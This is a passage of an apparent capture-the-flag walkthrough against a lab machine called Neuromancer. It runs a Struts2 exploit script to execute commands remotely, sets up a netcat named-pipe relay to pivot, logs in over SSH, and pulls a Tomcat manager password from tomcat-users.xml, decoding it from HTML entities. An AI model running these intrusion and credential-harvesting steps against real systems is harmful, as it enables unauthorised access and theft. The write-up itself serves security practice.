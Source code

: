We grant read and write permissions to the owner of the authorized_keys file.

```bash
root@kali:~$ python 41570.py http://192.168.56.104:8080/struts2_2.3.15.1-showcase/showcase.action "chmod 600 /home/ta/.ssh/authorized_keys"
```

We execute the following commands to set up a netcat relay to pivot as shown previously.

```bash
root@straylight:/root# mknod /tmp/backpipe2 p
root@straylight:/root# nc -lp 34483 < /tmp/backpipe2 | nc 192.168.56.104 34483 > /tmp/backpipe2
```

We access via SSH as user ta.

```bash
root@kali:~$ ssh -l ta 192.168.56.104 -p 34483 -i id_rsa
The authenticity of host '[192.168.56.104]:34483 ([192.168.56.104]:34483)' can't be established.
ECDSA key fingerprint is SHA256:oUL2wjfAFRqayjqOgc79xVYeSqvD92zqaV+4udNxJrw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.56.104]:34483' (ECDSA) to the list of known hosts.
 ----------------------------------------------------------------
|                Neuromancer Secure Remote Access                |
| UNAUTHORIZED ACCESS will be investigated by the Turing Police  |
 ----------------------------------------------------------------
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

94 packages can be updated.
44 updates are security updates.


Last login: Tue Jul  3 21:53:25 2018
ta@neuromancer:~$
```

We execute the find command to locate the tomcat-users.xml file.

```bash
ta@neuromancer:/$ find / -name 'tomcat-users.xml' 2>/dev/null | xargs cat
...
<user username="Lady3Jane" password="&gt;&#33;&#88;&#120;&#51;&#74;&#97;&#110;&#101;&#120;&#88;&#33;&lt;" roles="manager-gui"/>
...
```

As we can see, Lady3Jane's password is encoded in HTML, we decode to plain text using the hURL utility.

```bash
root@kali:~$ hURL -h "&gt;&#33;&#88;&#120;&#51;&#74;&#97;&#110;&#101;&#120;&#88;&#33;&lt;"

Original     :: &gt;&#33;&#88;&#120;&#51;&#74;&#97;&#110;&#101;&#120;&#88;&#33;&lt;
HTML DEcoded :: >!Xx3JanexX!<
```
